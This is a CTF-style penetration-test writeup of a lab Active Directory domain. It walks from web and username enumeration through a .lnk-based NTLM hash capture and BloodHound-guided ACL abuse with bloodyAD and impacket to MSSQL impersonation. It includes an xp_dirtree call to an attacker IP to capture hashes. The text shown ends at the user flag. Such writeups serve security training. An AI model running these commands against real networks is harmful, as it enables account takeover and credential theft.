+++
date = '2026-08-07T17:00:00+03:00'
draft = false
title = 'ShadowGate — HackSmarter'
tags = ["Active Directory", "Windows", "ADCS", "ESC3", "MSSQL", "BloodHound", "Responder", "Certipy", "Kerbrute", "Privilege Escalation", "CTF Writeup"]
feature = 'feature.png'
showTableOfContents = true
+++

## Overview

ShadowGate provides cybersecurity solutions for global enterprises. They are in the process of getting SOC 2 certified and hired Hack Smarter to perform an internal network penetration test. This writeup covers the full attack path from unauthenticated web enumeration to full Domain Admin compromise of the `shadowgate.local` Active Directory domain. The chain involved username enumeration, an authentication-bypassing upload portal, NTLM hash capture via SMB, multiple ACL abuse primitives (ForceChangePassword, WriteOwner, WriteDACL, GenericAll), MSSQL impersonation, and finally an ESC3 ADCS attack to impersonate the Domain Administrator.

**Key Findings:**

- **Domain:** `shadowgate.local` (DC: `SG-DC01.shadowgate.local`)
- **Entry point:** An unauthenticated `upload.aspx` developer portal granting access to the `mitch.r` account
- **Hash capture:** SMB UNC path injection via `.lnk` file to capture NTLMv2 hashes
- **Privilege escalation:** Object control chains (`ForceChangePassword` → `WriteOwner`/`WriteDACL` → `GenericAll`) leading to the MSSQL service account
- **Domain compromise:** ESC3 ADCS attack to impersonate `Administrator` using a restored deleted account

## Step 1: Reconnaissance and Enumeration

The assessment began with a full port scan against the target `10.1.44.124` to identify running services.

```
nmap -sV -sC -p- 10.1.44.124
```

```
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 126 Simple DNS Plus
80/tcp    open  http          syn-ack ttl 126 Microsoft IIS httpd 10.0
|_http-title: ShadowGate | Advanced Cyber Security Solutions
88/tcp    open  kerberos-sec  syn-ack ttl 126 Microsoft Windows Kerberos (server time: 2026-08-07 06:29:59Z)
135/tcp   open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 126 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 126
| ssl-cert: Subject: commonName=SG-DC01.shadowgate.local
445/tcp   open  microsoft-ds? syn-ack ttl 126
464/tcp   open  kpasswd5?     syn-ack ttl 126
1433/tcp  open  ms-sql-s      syn-ack ttl 126 Microsoft SQL Server 2019 15.00.2000.00; RTM
3268/tcp  open  ldap          syn-ack ttl 126 Microsoft Windows Active Directory LDAP (Domain: shadowgate.local, Site: Default-First-Site-Name)
3389/tcp  open  ms-wbt-server syn-ack ttl 126 Microsoft Terminal Services
5985/tcp  open  http          syn-ack ttl 126 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf        syn-ack ttl 126 .NET Message Framing
49664/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
```

**Key Findings:**

- The host is a domain controller running Windows Server 2019, identified as `SG-DC01.shadowgate.local`.
- Standard AD services are present: DNS (53), Kerberos (88), LDAP (389/3268), SMB (139/445), and WinRM (5985).
- Two non-standard web-facing services stand out: IIS on port **80** and Microsoft SQL Server on port **1433**.
- The domain is `shadowgate.local`.

I attempted SMB share enumeration without valid credentials, but it was not permitted, and anonymous RPC enumeration did not yield user lists.





```
rpcclient -U 'shadow.gate/' 10.1.44.124 -N
```



## Step 2: Web Enumeration and Username Discovery

The IIS website on port 80 presented a corporate page for ShadowGate. The "team" section revealed a list of employee names that looked like potential Active Directory usernames.

```
Mitch Ressek
Bogdan Radzik
Milo Weis
Oscar Mazerath
Sam Hadges
Daniel Ramus
Ryan James
```


I used these names to generate candidate username lists in various AD naming formats, but Kerbrute did not validate any of them.



Since directory brute-forcing with **Gobuster** returned nothing, I turned to virtual host discovery, which revealed a subdomain.



### Developer Portal

The discovered subdomain `dev.shadowgate.local` hosted a developer portal. At the bottom of the page, a piece of information revealed why the initial username wordlist had failed — ShadowGate uses a different naming convention.





Using this new naming format, I generated a fresh wordlist and tested it with **Kerbrute**, which confirmed five valid usernames.

```
2026/08/07 10:52:04 >  [+] VALID USERNAME:       milo.w@shadowgate.local
2026/08/07 10:52:04 >  [+] VALID USERNAME:       daniel.r@shadowgate.local
2026/08/07 10:52:04 >  [+] VALID USERNAME:       ryan.j@shadowgate.local
2026/08/07 10:52:04 >  [+] VALID USERNAME:       bogdan.r@shadowgate.local
2026/08/07 10:52:04 >  [+] VALID USERNAME:       mitch.r@shadowgate.local
2026/08/07 10:52:04 >  Done! Tested 7 usernames (5 valid) in 0.326 seconds
```



I found that none of the accounts were ASREProastable (pre-authentication not disabled).



### The Upload Portal

I ran a directory brute-force with **Feroxbuster** on `dev.shadowgate.local`, which surfaced an interesting endpoint, `upload.aspx`.



Visiting the page, I gained access to the `mitch.r` account without requiring authentication, completely bypassing the login page. The page also revealed the location where uploaded files are stored and processed — a `dev` folder that doubles as an SMB share.



## Step 3: Initial Access

Since the upload portal runs in the context of `mitch.r` and the processed files are stored in an SMB share I have write access to, I crafted a `.lnk` file to trigger an SMB connection back to me when the file is accessed. I started **Responder** to listen for the connection.

```
sudo responder -dvw -I tun0
```

The tool used to generate the malicious `.lnk` file:



Uploading the file:



After hitting issues with the first tool, I used a modified variant to craft the payload.



The uploaded file triggered an SMB authentication attempt, and Responder captured the NTLMv2 hash for the user running the file-processing service.



I successfully cracked the captured hash offline, revealing the plaintext password for `mitch.r`.



### SMB Share Enumeration

With valid credentials, I enumerated the SMB shares.



I found nothing interesting inside the share itself.



### BloodHound Collection

I performed a domain-wide collection to map out attack paths.

```
bloodyAD --host SG-DC01 -d shadowgate.local -u 'mitch.r' -p '<REDACTED>' get bloodhound
```

BloodHound revealed that `mitch.r` has **ForceChangePassword** outbound object control over two users: `milo.w` and `ryan.j`.



## Step 4: Privilege Escalation — Taking Over the MSSQL Service Account

I abused the ForceChangePassword primitive with **BloodyAD** to reset the passwords of both controlled users.

```
bloodyAD --host <dc> -d <domain> -u <user> -p <pass> set password <target_user> '<newpassword>'
```





BloodHound showed that `milo.w` has outbound object control over the `svc_mssql` account, so I made this user the focus since `ryan.j` was a dead end.





First, I took ownership of the `svc_mssql` account using the `WriteOwner` primitive.

```
impacket-owneredit -action write -new-owner 'milo.w' -target 'svc_mssql' 'shadowgate.local/milo.w:<REDACTED>' -dc-ip 10.1.44.124
```



Then I granted full control to `milo.w` via a DACL write.

```
impacket-dacledit -action write -rights FullControl -principal 'milo.w' -target 'svc_mssql' 'shadowgate.local/milo.w:<REDACTED>' -dc-ip 10.1.44.124
```



With full control over the account, I reset its password.

```
bloodyAD --host 10.1.44.124 -d shadowgate.local -u milo.w -p '<REDACTED>' set password 'svc_mssql' '<REDACTED>'
```



## Step 5: Lateral Movement via MSSQL

I tested the new `svc_mssql` credentials and confirmed they work.



BloodHound revealed that `svc_mssql` can impersonate the `SHADOWGATE\bogdan.r` user.



SQL Server logins with the **IMPERSONATE** privilege can execute commands in the context of another login, such as the system administrator (`sa`) account, potentially escalating privileges.

Authenticating to the MSSQL instance:

```
/usr/bin/python3 /usr/share/doc/python3-impacket/examples/mssqlclient.py 'shadowgate.local/svc_mssql:<REDACTED>@10.1.44.124' -windows-auth
```



Executing commands as `bogdan.r`:

```
EXECUTE AS LOGIN = 'SHADOWGATE\bogdan.r';
SELECT SYSTEM_USER;
```



The user is not a sysadmin and has almost no rights inside SQL Server itself, so it cannot be used for direct escalation — but the MSSQL service account context can be used to capture credentials. BloodHound showed that `bogdan.r` is part of the Remote Management group and has outbound object control.



### NTLMv2 Capture via xp_dirtree

`xp_dirtree` is an undocumented SQL Server extended stored procedure that lists the structure of a local or remote directory. It runs using the security context of the MSSQL service account, making it a classic relay point for hash capture.

```
EXEC xp_dirtree '\\10.200.77.181\share'
```



I captured the hash of the MSSQL service account (running as `bogdan.r`).



I cracked the captured hash, yielding the plaintext password for `bogdan.r`.



BloodHound showed that `bogdan.r` has **GenericAll** over two users.



I abused this to reset the passwords of both users.



`daniel.r` turned out to be a normal user account with no special permissions or group memberships.



`oscar.m` however has remote access rights, so it warranted further investigation.



I attempted to authenticate, which revealed that the account has logon-hours restrictions in place.



Since I control the account, I cleared the logon hours using **BloodyAD**.

```
bloodyAD --host 10.1.44.124 -d shadowgate.local -u bogdan.r -p '<REDACTED>' set object oscar.m logonHours
```



Authentication now succeeded, and I captured the user flag.



